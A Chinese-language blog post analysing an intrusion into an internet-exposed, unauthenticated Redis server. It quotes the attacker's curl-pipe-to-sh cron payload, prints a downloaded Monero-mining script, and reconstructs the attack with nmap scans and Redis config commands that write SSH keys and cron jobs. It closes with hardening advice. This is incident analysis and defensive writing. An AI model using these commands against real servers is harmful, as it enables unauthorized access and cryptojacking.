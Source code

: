 ```yaml
---
layout:     post
title:      "Redis安全问题分析"
date:       2017-03-03 16:48:00 +0800
category:   "redis"
tags:       ["security", "redis"]
excerpt:    "最近由于特殊原因，服务器在公网上开放了redis端口(没有鉴权)和mysql端口，期间胆战心惊的。不过该来的迟早要来，还是被别有用心的人盯上了，现在想来仍心有余悸，背后直冒冷汗。开放在公网没多久，同事就反映redis里面有异常数据，0号db里面数据都被清除了，只剩下个`crackit`键，键值为："
---
```


## redis被侵入

最近由于特殊原因，服务器在公网上开放了redis端口(没有鉴权)和mysql端口，期间胆战心惊的。不过该来的迟早要来，还是被别有用心的人盯上了，现在想来仍心有余悸，背后直冒冷汗。开放在公网没多久，同事就反映redis里面有异常数据，0号db里面数据都被清除了，只剩下个`crackit`键，键值为：

````
\n\n*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh\n\n
````

### 计划任务检查

看到这个，很自然会想到crond的计划任务，`*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh`的意思是"每5分钟去下载并执行这个test脚本"。所以第一时间去检查系统计划任务，但是并没有发现什么，貌似这个计划任务并没有添加成功(因为机器上运行redis服务的是一个nologin的用户)。

`crontab -l`可以查看当前用户的所有计划任务，但是难免会有遗漏，或者通过其他用户添加，我们最好是查看下`/var/spool/cron/`目录下所有文件。crond的具体操作以及命令格式，可以看我之前的文章 -- [crond环境变量问题](/2016/12/16/crond-env-problems/) 。

### 脚本检查

计划任务没有发现什么问题，所以只好去看看入侵者想要下载和执行的脚本，或许能发现什么。下载完脚本，打开之后，内容如下(注释是本人添加)：

````
#!/bin/bash
# 查看系统中是否运行minerd这个挖矿软件
Jin=`ps -ef|grep minerd|grep -v grep|wc -l`
# 找到minerd进程的pid
Pid=`ps -ef|grep minerd|grep -v grep|awk '{print $2}'`
# 统计指向指定比特币账户的minerd进程数量
Qianbao=`ps -ef|grep minerd|grep -v grep|grep "44GpQ3X9aCR5fMfD8myxKQcAYjkTdT5KrM4NM2rM9yWnEkP28mmXu5URUCxwuvKiVCQPZaoYkpxxzKoCpnED6Gmb2wWJRuN"|wc -l`
# 杀掉竞争对手AnXqV挖矿软件
ps auxf|grep -v grep|grep AnXqV |awk '{print $2}'|xargs kill -9

# 如果系统中运行有minerd
if [ $Jin -eq  1 ];then
    # 如果minerd不是指向自己账户，杀掉minerd进程，并且将minerd下载在/opt目录下，运行下载的minerd并指向自己账户
    if [ $Qianbao -eq 0 ];then
        kill -9 $Pid
        cd /opt
        if [ ! -f minerd ];then
            curl -L http://sx.doiton.tk/minerd -o minerd \
            &&   chmod +x minerd
        fi
        /opt/minerd -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:80 -u 44GpQ3X9aCR5fMfD8myxKQcAYjkTdT5KrM4NM2rM9yWnEkP28mmXu5URUCxwuvKiVCQPZaoYkpxxzKoCpnED6Gmb2wWJRuN -p x &>>/dev/null
    fi
fi

# 如果系统中没运行minerd，直接将minerd下载在/opt目录下，运行下载的minerd并指向自己账户
if  [ $Jin -ne  1 ];then
    kill -9 $Pid
    cd /opt
    if [ ! -f minerd ];then
        curl -L http://sx.doiton.tk/minerd -o minerd \
        &&   chmod +x minerd
    fi
    /opt/minerd -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:80 -u 44GpQ3X9aCR5fMfD8myxKQcAYjkTdT5KrM4NM2rM9yWnEkP28mmXu5URUCxwuvKiVCQPZaoYkpxxzKoCpnED6Gmb2wWJRuN -p x &>>/dev/null
 fi
````

分析完脚本之后，通过`ps aux | grep -v grep | grep [name]`查看下系统中是否运行有`minerd`或者`AnXqV`。很庆幸，系统中没有运行这两种挖矿软件，估计上一步`计划任务`没添加成功。

## 还原过程

侥幸逃过了一劫，庆幸之余来分析下入侵者的入侵过程。

### 利用原理

> redis的安全理念是，“不要将Redis暴露在公网中, 因为让不受信任的客户接触到Redis是非常危险的”。redis作者之所以放弃解决未授权访问导致的不安全性是因为, 99.99% 使用 Redis 的场景都是在沙盒化的环境中, 为了0.01%的可能性增加安全规则的同时也增加了复杂性, 虽然这个问题的并不是不能解决的, 但是这在他的设计哲学中仍是不划算的。[[1]](http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/)

当然，使用者将redis端口绑定在默认的`0.0.0.0:6379`，以具有某权限的用户运行，并且没有开启鉴权，也没采取相关防火墙策略，将不需认证的redis服务器暴露在公网，才是这类事件的罪魁祸首。

因为redis自身提供`config`命令，改命令本来是用来动态调整redis配置的，但是既然能写文件(也能修改配置文件地址)，那么自然可以用来进行一些其他的操作。

### 扫描端口

公网上有很多用户运行redis，其实都监听默认端口6379，并且没有开启auth鉴权。我们可以很轻松的扫描到这样的用户，然后实施入侵(并不建议这么做，已经是犯罪)：

````
# 安装nmap扫描器
$ sudo yum install nmap (红帽系或者SUSE) 或者 sudo apt-get install nmap (debian系)

# 扫描网络中活动主机(网段可以自己修改)
$ nmap -sn 192.168.2.0/24

# 扫描特定主机的开放端口(地址、地址段自己修改)
$ nmap 192.168.2.0,100-200

# 找到主机上监听端口的服务
$ nmap -sV 192.168.2.22

# 查看主机上端口的详细信息
$ nmap -sC 192.168.2.22 -p 6379

# 特定漏洞脚本利用(这个不是重点)
$ nmap --script=[path] 192.168.2.22 -p 6379
````

扫描到可利用的端口后，我们就可以进行下一步操作了。我们可以进行比较常见的操作：添加计划任务执行特定操作，或者将ssh公钥添加到主机方便以后利用。

### 利用1：添加ssh公钥

在主机redis中添加一个`crackit`的键值对

````
# 生成rsa密钥对(公钥和私钥)
$ ssh-keygen -t rsa
# 将公钥写入文件，私钥保留
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt
# 将公钥写入redis
$ cat test.txt | redis-cli -h 192.168.2.22 -x set "crackit"
````

通过`config`命令，修改配置路径，将公钥写入主机`/root/.ssh/authorized_keys`。

````
$ redis-cli -h 192.168.2.22
    > flushall
    > config set dir "/root/.ssh"
    > config set dbfilename "authorized_keys"
    > save
````

公钥写入成功之后，我们便可以使用之前生成的私钥来访问对应的主机，后面的操作自己脑补。

### 利用2：添加计划任务

在主机redis中添加一个`crackit`的键值对

````
# 将计划任务命令写入文件
$ (echo -e "\n\n*/5 * * * * /usr/bin/curl -fsSL http://192.168.2.1/test.sh | sh\n\n") > test.txt
# 将计划任务内容写入redis
$ cat test.txt | redis-cli -h 192.168.2.22 -x set "crackit"
````

添加任务计划操作，其实和添加公钥差不多，只是将目录修改成`/var/spool/cron/`，系统中便自动添加了一个计划任务。

````
$ redis-cli -h 192.168.2.22
    > flushall
    > config set dir "/var/spool/cron/"
    > config set dbfilename "root"
    > save
````

添加计划任务成功以后，系统便会定时运行我们写好的脚本，具体能做什么取决于你的脚本内容。

## 影响和应对

影响：

- redis作为数据库，如果被入侵，导致数据泄露或者数据丢失，会给用户带来很大损失。
- 入侵者通过redis执行lua脚本，或者添加计划任务，或者添加ssh公钥，都可能使机器沦为肉鸡，被人使用。

应对措施：

1. 配置`/etc/redis.config`文件，修改bind选项，绑定特定IP地址(内网地址或者回环地址)可以限制部分IP访问。
2. 配置`/etc/redis.config`文件，修改port选项，修改默认监听6379端口，避免被人轻易扫描到。
3. 配置`/etc/redis.config`文件，修改requirepass选项，添加redis服务器鉴权，增强安全性。
4. 配置`/etc/redis.config`文件，修改rename-command选项，将危险命令重命名。
5. 创建单独的nologin系统用户，用来运行redis，避免被入侵后提权(执行代码或者命令)，千万不能以root运行redis服务。
6. 对主机添加ACL或者防火墙进行网络访问控制，云主机可以设置安全组。

最近除了redis被劫持，mongodb、mysql等数据被勒索的新闻也能经常听到，所以提高自身安全意识才是最根本的。

